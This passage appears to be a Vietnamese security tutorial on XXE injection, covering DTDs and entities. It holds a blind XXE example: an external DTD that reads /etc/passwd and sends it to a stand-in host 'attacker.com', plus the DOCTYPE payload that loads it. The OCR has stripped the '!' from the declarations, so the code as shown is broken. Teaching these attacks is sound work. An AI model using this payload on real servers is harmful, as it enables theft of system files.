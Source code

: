 ```xml 
```

- **External DTD**: Khai báo nội dung trong một tệp tin .dtd sẽ được tham chiếu tới sau đó. Ví dụ, kẻ tấn công host một trang web public có chứa một external DTD file có URL `http://attacker.com/malicious.dtd` có nội dung như sau:

```xml 
< ENTITY % file SYSTEM "file:///etc/passwd">
< ENTITY % eval "< ENTITY % exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Tệp tin DTD này thực hiện các bước hoạt động như sau:

- Định nghĩa một parameter entity với tên `file` có giá trị là nội dung tệp `/etc/passwd`
- Định nghĩa một entity với tên `eval`, trong entity này chứa một định nghĩa parameter entity khác với tên `exfiltrate` sẽ gửi request tới website của attacker `http://attacker.com/`, truyền tham số x chứa nội dung tệp `/etc/passwd` bằng cách gọi tham chiếu entity `%file`;
- Gọi tham chiếu entity `%eval` chứa định nghĩa entity `exfiltrate`
- Gọi tham chiếu entity `%exfiltrate;`.
- `&#x25;` là định dạng HTML encode của ký tự % do được chứa trong một định nghĩa parameter entity khác.
- Các định nghĩa parameter entity cần được gọi tham chiếu mới có thể hoạt động. Như trong ví dụ file DTD trên gọi tham chiếu `%eval;`, để định nghĩa về entity eval hoạt động thì cần gọi thêm tham chiếu `%exfiltrate;`, trong định nghĩa của entity exfiltrate đã chứa việc gọi tham chiếu `%file;`

Ví dụ tệp DTD này được deploy tại URL public: `http://attacker.com/malicious.dtd`

Cuối cùng, kẻ tấn công định nghĩa một parameter entity, gửi payload tới server chứa lỗ hổng Blind XXE

```xml 
< DOCTYPE foo [< ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

- Server truy cập tới file DTD được chỉ định trong server attacker và thực hiện các bước được khai báo. Từ đó server attacker nhận được nội dung tệp tin mong muốn.

Ngoài DTD ra, thì file xml còn có thể được "definition" bởi một kiểu khác là XML Schema Definition (XSD) - định nghĩa theo lược đồ. Nhưng chỉ có DTD gây ra lỗi XXE Injection.

#### Entity

- **Entity**: là một khái niệm có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml. Một số kiểu entity: character, parameter, named (internal), external…
- Có thể coi các entity là một biến để lưu trữ dữ liệu vậy, chúng ta có thể khai báo nó một lần, gán giá trị vào cho nó và sử dụng ở trên toàn bộ file XML. Các entity chỉ có thể được khai báo ở DTD (Document Type Definition)
- Entity có thể được khai báo như sau:

```xml 

< ENTITY entity-name “entity-value” >

Hoặc:

< ENTITY entity-name SYSTEM "URI/URL">
```
